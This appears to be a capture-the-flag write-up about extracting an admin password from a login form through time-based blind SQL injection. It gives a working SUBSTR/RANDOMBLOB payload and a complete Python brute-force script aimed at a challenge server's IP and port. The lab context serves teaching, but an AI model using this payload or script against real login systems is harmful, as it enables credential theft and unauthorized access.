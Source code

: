 let's look at the source code

wow! theres sql! this is sql injection!

i hope none of yall managed to figure out how to bypass the filter (string concat ahem ahem)

but anyways notice how the flag is literally the password of the admin 

...but you cannot log in under any circumstances?? there arent even any error messages????

well turns out we can still find the flag, using an sql time attack

the idea is 

1) check 1 character of the password
2) if we correctly guess that character, make the program spend a long time thinking
3) if we see that the program spent a long time thinking, we know that the character we guessed is correct
4) repeat for all characters in the flag

the challenge states that the flag only consists of curly braces, underscores, lowercase alphabets, and numbers, so our alphabet looks like this

```
abcdefghijklmnopqrstuvwxyz1234567890{}
```

but how will we craft our payload?

we can utilize 2 functions in sql: ```SUBSTR()``` and ```RANDOMBLOB()```

```SUBSTR()``` take in 3 parameters: variable, position, length

in python terms its ```variable[position:position+length]```

```RANDOMBLOB()``` generates pseudo-random bytes of some length, and will be quite slow if the length is huge

so, let's craft our payload

```sql
' OR (substr(password,1,1)='a' AND randomblob(1000000000)) --
```

the full sql query will end up looking something like this:

```sql
SELECT * FROM users WHERE username = '{username}' AND password = '' OR (substr(password,1,1)='a' AND randomblob(1000000000)) --'
```

this checks if the first character of the variable password is 'a', and if it is, randomblob is called and the website takes a longer time to return

for the whole brute-forcing script:

```py
import requests
import time

chars = "abcdefghijklmnopqrstuvwxyz}{_13457"
flag = ""
for i in range(9,1000):
    clist = []
    for c in chars:
        start = time.time()
        requests.post("http://159.223.73.72:3957/", data={"username": "admin", "password": f"' OR (substr(password,{i+1},1)='{c}' AND randomblob(1000000000)) --"})
        clist.append((time.time()-start, c)) # duration, character
    clist.sort(reverse=True)
    flag+=clist[0][1] # character that took the longest for a request to complete
    print(flag)
print(flag)

```

this will keep running until we reach '}', where we can stop running the code

each request takes about 0.3 seconds to run, depending on your connection, and if the guess is correct, the request will take around 4 seconds to complete

in total, this code should not take more than 5 minutes to get the flag

flag: deadbeef{r34l_t1m3}
